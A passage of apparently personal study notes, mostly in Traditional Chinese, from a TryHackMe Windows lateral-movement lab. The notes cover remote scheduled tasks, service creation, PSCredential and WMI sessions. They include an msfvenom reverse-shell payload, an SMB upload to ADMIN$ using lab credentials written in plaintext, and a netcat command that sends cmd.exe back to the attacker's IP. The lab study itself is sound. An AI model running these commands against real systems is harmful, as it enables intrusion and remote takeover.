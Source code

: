 		=> Ports:
			135/TCP, 49152-65535/TCP (DCE/RPC)
			445/TCP (RPC over SMB Named Pipes)
			139/TCP (RPC over SMB Named Pipes)
		=> Required Group Memberships: Administrators	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	Scheduled Tasks
		--> 建立名為 THMtask1 的任務
			--> schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
			--> schtasks /s TARGET /run /TN "THMtask1" 		
		--> 刪除計劃任務
			--> schtasks /S TARGET /TN "THMtask1" /DELETE /F
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	反向 shell -- exe-service
		--> kali : 
			=> msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.77.150 LPORT=4444 -o A1111.exe
			=> smbclient //thmiis.za.tryhackme.com/ADMIN$ -U 'za.tryhackme.com/t1_leonard.summers%EZpass4ever' -c 'put A1111.exe' --option="client min protocol=core"
			=> msfconsole -qx "use exploit/multi/handler;set LHOST lateralmovement;set LPORT 4444;set payload windows/shell/reverse_tcp;"
			=> sudo  nc -lvp 4443
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> ssh(damien.horton )
			=> ssh za.tryhackme.com\\damien.horton@thmjmp1.za.tryhackme.com | pABqHYKsG8L7	
			=> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.77.150 4443"
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> cmd (t1_leonard.summers)
			=> sc.exe \\thmiis.za.tryhackme.com create THMservice-6758 binPath= "%windir%\A1111.exe" start= auto
			=> sc.exe \\thmiis.za.tryhackme.com start THMservice-6758
		--> nt authority\system	
			=> Flag.exe
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	Windows Management Instrumentation ( WMI )
		=> WMI 允許管理員執行標準管理任務
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	從 Powershell連線到WMI :
		DCOM：  RPC over IP 將用於連接到 WMI。協定使用連接埠 135/ TCP和連接埠 49152-65535/ TCP，如使用 sc.exe 時所解釋的那樣。
		Wsman：  WinRM 將用於連接到 WMI。此協定使用連接埠 5985/TCP (WinRM  HTTP ) 或 5986/ TCP (WinRM HTTPS)。	
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		PSCredential 物件
			$username = 'Administrator';
			$password = 'Mypass123';
			$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
			$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			Enter-PSSession -Computername TARGET -Credential $credential	
			~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
			Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		建立WMI會話 :
			$Opt = New-CimSessionOption -Protocol DCOM //配置WMI會話的連線選項，包括連線協定
			$Session = New-Cimsession -ComputerName TARGET -Credential //建立針對遠端主機的會話
			$credential -SessionOption $Opt -ErrorAction Stop
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	使用WMI遠端建立進程 :
		Ports:
			135/TCP, 49152-65535/TCP (DCERPC)
			5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
		Required Group Memberships: Administrators	
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		向 Win32_Process 類別發送WMI請求 :	